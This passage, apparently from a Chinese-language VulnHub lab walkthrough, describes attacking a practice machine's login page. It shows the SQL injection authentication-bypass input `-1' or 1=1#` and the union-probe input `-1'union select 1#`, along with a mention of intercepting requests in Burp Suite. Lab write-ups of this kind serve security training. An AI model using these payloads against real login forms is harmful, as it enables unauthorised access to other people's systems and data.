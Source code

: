 ```
访问网站，里面有一个登录框。
```

![image-20241207182343054](vulnhub靶场实战/image-20241207182343054.png)

```
可以使用万能密码进行登录,但是登录里面的网站啥都没有。
-1' or 1=1#
```

​	![image-20241207182937731](vulnhub靶场实战/image-20241207182937731.png)	

```
于是bp进行抓包判断是否有注入点。由于报错就说明有注入点了。
-1'union select 1#
```
